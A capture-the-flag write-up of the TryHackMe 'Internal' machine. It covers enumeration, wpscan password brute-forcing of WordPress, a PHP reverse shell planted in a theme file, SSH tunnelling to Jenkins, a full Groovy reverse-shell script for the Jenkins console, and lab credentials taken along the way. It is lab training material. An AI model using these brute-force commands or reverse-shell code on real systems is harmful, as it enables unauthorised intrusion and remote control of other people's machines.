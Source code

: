 Internal (Tryhackme)

<img src="https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/Internal%20(THM)/Images/222b3e855f88a482c1267748f76f90e0.jpeg?raw=true" alt="Internal Screenshot" width="150"/>
#Penetration Testing Challenge#

# Enumeration

## Nmap

```jsx
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzpZTvmUlaHPpKH8X2SHMndoS+GsVlbhABHJt4TN/nKUSYeFEHbNzutQnj+DrUEwNMauqaWCY7vNeYguQUXLx4LM5ukMEC8IuJo0rcuKNmlyYrgBlFws3q2956v8urY7/McCFf5IsItQxurCDyfyU/erO7fO02n2iT5k7Bw2UWf8FPvM9/jahisbkA9/FQKou3mbaSANb5nSrPc7p9FbqKs1vGpFopdUTI2dl4OQ3TkQWNXpvaFl0j1ilRynu5zLr6FetD5WWZXAuCNHNmcRo/aPdoX9JXaPKGCcVywqMM/Qy+gSiiIKvmavX6rYlnRFWEp25EifIPuHQ0s8hSXqx5
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMFOI/P6nqicmk78vSNs4l+vk2+BQ0mBxB1KlJJPCYueaUExTH4Cxkqkpo/zJfZ77MHHDL5nnzTW+TO6e4mDMEw=
|   256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMlxubXGh//FE3OqdyitiEwfA2nNdCtdgLfDQxFHPyY0
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

## HTTP (80)

### Dirsearch

```jsx
[05:28:52] 301 -  313B  - /blog  ->  http://10.10.120.129/blog/             
[05:28:53] 200 -    2KB - /blog/wp-login.php                                
[05:28:53] 200 -   18KB - /blog/                                            
[05:29:29] 301 -  319B  - /javascript  ->  http://10.10.120.129/javascript/ 
[05:29:53] 301 -  319B  - /phpmyadmin  ->  http://10.10.120.129/phpmyadmin/ 
[05:29:55] 200 -    3KB - /phpmyadmin/doc/html/index.html                   
[05:29:56] 200 -    3KB - /phpmyadmin/                                      
[05:29:56] 200 -    3KB - /phpmyadmin/index.php
[05:30:08] 403 -  278B  - /server-status/                                   
[05:30:08] 403 -  278B  - /server-status
[05:30:35] 200 -    2KB - /wordpress/wp-login.php                           
[05:30:36] 404 -   51KB - /wordpress/ 
```

### Website functionality

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(3).png)

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(4).png)

- username admin is available
- bruteforce password

## WPScan

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ wpscan --url http://10.10.120.129/blog -e vp,u

┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ wpscan --url http://10.10.120.129/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
```

```jsx
[!] Valid Combinations Found:
 | Username: admin, Password: my2boys
```

## Post Enumeration

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(5).png)

```jsx
william:arnold147
```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ ssh william@10.10.120.129
william@10.10.120.129's password: 
Permission denied, please try again.
william@10.10.120.129's password: 
```

- ssh cannot connect

### Reverse Shell

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(6).png)

- we upload php-revershell-php

```jsx
http://internal.thm/blog/wp-content/themes/twentyseventeen/404.ph
```

- tick this link

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ nc -lvnp 53    
listening on [any] 53 ...
connect to [10.4.9.248] from (UNKNOWN) [10.10.120.129] 34560
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:06:33 up 44 min,  0 users,  load average: 0.00, 0.14, 0.88
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

```jsx
$ cd /opt
$ ls -lah
total 16K
drwxr-xr-x  3 root root 4.0K Aug  3  2020 .
drwxr-xr-x 24 root root 4.0K Aug  3  2020 ..
drwx--x--x  4 root root 4.0K Aug  3  2020 containerd
-rw-r--r--  1 root root  138 Aug  3  2020 wp-save.txt
$ cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

- we check cat /etc/passwd
- aubreanna is user
- we ssh login

```jsx
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
```

```jsx
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```

- the ip may be docker

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.120.129

```

- link connect this docker ip

```jsx
  System information as of Sat Jun  7 10:16:41 UTC 2025

  System load:  0.0               Processes:              112
  Usage of /:   63.8% of 8.79GB   Users logged in:        0
  Memory usage: 37%               IP address for eth0:    10.10.120.129
  Swap usage:   0%                IP address for docker0: 172.17.0.1

  => There is 1 zombie process.
```

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(7).png)

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(8).png)

- fuzz password

```jsx
admin : spongebob
```

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(9).png)

### Jenkins Reverse Shell

- In jenkins, we can get reverse shell from `scripting console`

```jsx
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

- Can find at groovy reverse shell online
- Change string cmd = `“/bin/sh”`

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ nc -lvnp 8044
listening on [any] 8044 ...
connect to [10.4.9.248] from (UNKNOWN) [10.10.120.129] 60380
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)

```

```jsx
cd opt
ls -lah
total 12K
drwxr-xr-x 1 root root 4.0K Aug  3  2020 .
drwxr-xr-x 1 root root 4.0K Aug  3  2020 ..
-rw-r--r-- 1 root root  204 Aug  3  2020 note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ ssh root@10.10.120.129
root@10.10.120.129's password: 
```
